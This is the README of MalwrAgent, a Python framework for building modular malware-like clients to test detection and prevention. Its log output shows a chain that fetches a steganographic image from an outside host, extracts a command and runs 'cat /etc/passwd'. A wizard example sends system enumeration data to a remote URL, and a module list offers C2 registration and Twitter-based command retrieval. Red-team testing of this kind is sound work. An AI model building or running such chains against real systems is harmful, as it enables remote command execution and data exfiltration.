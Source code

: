      __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  

    -- .- .-.. .-- .-. .- --. . -. - 

[![Build Status](https://travis-ci.org/michaelschratt/MalwrAgent.svg?branch=master)](https://travis-ci.org/michaelschratt/MalwrAgent) [![Code Climate](https://codeclimate.com/github/michaelschratt/MalwrAgent/badges/gpa.svg)](https://codeclimate.com/github/michaelschratt/MalwrAgent) [![Codacy Badge](https://api.codacy.com/project/badge/Grade/ac34274f76e742f089e82684c2e50dee)](https://www.codacy.com/app/bl4ckw0rm/MalwrAgent?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=michaelschratt/MalwrAgent&amp;utm_campaign=Badge_Grade)

### About MalwrAgent

#### THIS PROJECT IS STILL IN ALPHA STATE

Hello Agent M! Welcome to the MalwrAgency. The MalwrAgent enables you to test your current detection & prevention capabilities in just a few simple steps. The idea is to offer a framework of different modules you can connect to make up a chain. For example, egress testing can be established by connecting multiple HTTP POST and HTTP GET requests. 

Threat actors tend to use more sophisticated techniques like steganography. This technique is not only applied during infiltration but also used for data exfiltration based on video or image steganography.
Following log output demonstrates the download of an image that contains a hidden string. This string is then used as an input argument for the Command module. Finally, `cat /etc/passwd` is executed. 

    bl4ckw0rm@einsteinium > python malwragent.py -l -c myChains/Stego.json --log 3
    INFO:root:client: Checking f_retrieve_image with parameters {u'url': u'http://mfs-enterprise.com/agency/stego.png'}
    INFO:root:client: Checking f_extract_text_from_image with parameters None
    INFO:root:client: Checking f_exec_system with parameters None
    Autopilot takes over in
       3
       2
       1
    INFO:root:myChains/Stego: Chain CLIENT running
    INFO:root:myChains/Stego: Running function f_retrieve_image from module Web with input <None> and args <{u'url': u'http://mfs-enterprise.com/agency/stego.png'}>
    INFO:root:myChains/Stego: Running Transportation module malwragent.packages.modules.web.Web - Args: {'settings': {u'function': u'f_retrieve_image', 'input': None, u'args': {u'url': u'http://mfs-enterprise.com/agency/stego.png'}}}
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): mfs-enterprise.com
    INFO:requests.packages.urllib3.connectionpool:Starting new HTTP connection (1): www.mfs-enterprise.com
    INFO:root:myChains/Stego: Running function f_extract_text_from_image from module Stego with input <<cStringIO.StringI object at 0x10be7fad0>> and args <None>
    INFO:root:myChains/Stego: Running Transformation module malwragent.packages.modules.stego.Stego - Args: {'settings': {u'function': u'f_extract_text_from_image', 'input': <cStringIO.StringI object at 0x10be7fad0>, u'args': None}}
    INFO:root:myChains/Stego: Running function f_exec_system from module Command with input <cat /etc/passwd> and args <None>
    INFO:root:myChains/Stego: Running Post module malwragent.packages.modules.command.Command - Args: {'settings': {u'function': u'f_exec_system', 'input': 'cat /etc/passwd', u'args': None}}
    INFO:root:myChains/Stego: Chain CLIENT finished
    ^C
    Bye, Bye

Just as one likes, you could use any other module to invoke an action on the previous output. And so on ... But in the end, you should have an eye at your detection & prevention products, and develop new defensive strategies. 

### Get started

    bl4ckw0rm@einsteinium > python malwragent.py
    usage: malwragent.py [-h] [-l] [-w] [-c CONFIGFILE] [-i INTERVAL]
                         [--log {1,2,3,4}] [-V]
    
    optional arguments:
      -h, --help            show this help message and exit
      -l, --load            load and run chain from a configuration file.
      -w, --wizard          create and save a chain to configuration file
      -c CONFIGFILE, --configfile CONFIGFILE
                            configuration file name, default: config.json
      -i INTERVAL, --interval INTERVAL
                            interval for periodic chain execution, default: 10
                            seconds
      --log {1,2,3,4}       increase logging output verbosity
      -V, --version         show program's version number and exit
    
You can use the wizard to create a new client. A client consists of a chain of modules. The chain is stored in JSON format.

    bl4ckw0rm@einsteinium > python malwragent.py -w -c myChains/test             
    #   __   __  _______  ___      _     _  ______    _______  _______  _______  __    _  _______ 
    #  |  |_|  ||   _   ||   |    | | _ | ||    _ |  |   _   ||       ||       ||  |  | ||       |
    #  |       ||  |_|  ||   |    | || || ||   | ||  |  |_|  ||    ___||    ___||   |_| ||_     _|
    #  |       ||       ||   |    |       ||   |_||_ |       ||   | __ |   |___ |       |  |   |  
    #  |       ||       ||   |___ |       ||    __  ||       ||   ||  ||    ___||  _    |  |   |  
    #  | ||_|| ||   _   ||       ||   _   ||   |  | ||   _   ||   |_| ||   |___ | | |   |  |   |  
    #  |_|   |_||__| |__||_______||__| |__||___|  |_||__| |__||_______||_______||_|  |__|  |___|  
    #
    #   -- .- .-.. .-- .-. .- --. . -. - 
    #
    #  Hello Agent M! Welcome to the MalwrAgency. Use our MalwrAgent to create your 
    #  highly flexible and easy to use Malwr. Please go ahead ...
    #
    #  Do you want your client to register with C2-Server? (Y|N) \> n
    #  Choose from our list of modules. What do you want the client to do?
    #
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> m
    
    function                         type            module         choice
    -------------------------------  --------------  -----------  --------
    f_exec_system                    Post            Command             0
    f_base64_decode                  Transformation  Crypto              1
    f_base64_encode                  Transformation  Crypto              2
    f_md5                            Transformation  Crypto              3
    f_sha1                           Transformation  Crypto              4
    f_sha256                         Transformation  Crypto              5
    f_get_platform                   Post            Enumeration         6
    f_get_platform_machine           Post            Enumeration         7
    f_get_platform_processor         Post            Enumeration         8
    f_get_platform_system            Post            Enumeration         9
    f_get_platform_uname             Post            Enumeration        10
    f_get_platform_version           Post            Enumeration        11
    f_extract_text_from_image        Transformation  Stego              12
    f_grab_cmd_from_twitter_profile  Transportation  Twitter            13
    f_http_get                       Transportation  Web                14
    f_http_post                      Transportation  Web                15
    f_retrieve_image                 Transportation  Web                16
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 
    
    Adding function f_get_platform_uname from module Enumeration done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> 14
    
    Please provide the following arguments: url
    
    # +[url] \> http://mfs-enterprise.com/agency/?info=
    
    Adding function f_http_get from module Web done
    
    #  ([0-9]{n}|[N for NEXT]|[C for CHAIN]|[M for MODULES]) CLIENT \> n
    #
    #  Do you want to review your chain? (Y|N) \> y
    
    function              type            module       chain    arguments
    --------------------  --------------  -----------  -------  --------------------------------------------------
    f_get_platform_uname  Post            Enumeration  CLIENT
    f_http_get            Transportation  Web          CLIENT   {'url': 'http://mfs-enterprise.com/agency/?info='}
    
    #  Do you want to save the chain as myChains/test.json? (Y|N) \> y
    
    See you then. Use 'malwragent.py -l -c myChains/test.json' to run your client.


### Future Work

Please follow my repository's projects

### Write your own modules

TBD

### Support

Just drop me a line. Please, use contact information from below.

### Supported Operating Systems

Linux, macOS

### Contribute

Feel free to browse through open issues and help where you can.

### Contact Information

Name: Michael Schratt

Twitter: [@bl4ckw0rm](https://twitter.com/bl4ckw0rm)

Email: github@mfs-enterprise.com

### Licence

The MIT License (MIT)

Visit [https://opensource.org/licenses/MIT](https://opensource.org/licenses/MIT) for further information.

#### Disclaimer

All the information provided on this site are for educational purposes only. The site or the authors are not responsible for any misuse. Do not use the information to write malicious software. Use the information to expand knowledge and improve current or future detection & prevention technology. Use at your own risk. Breaking into computer systems is illegal.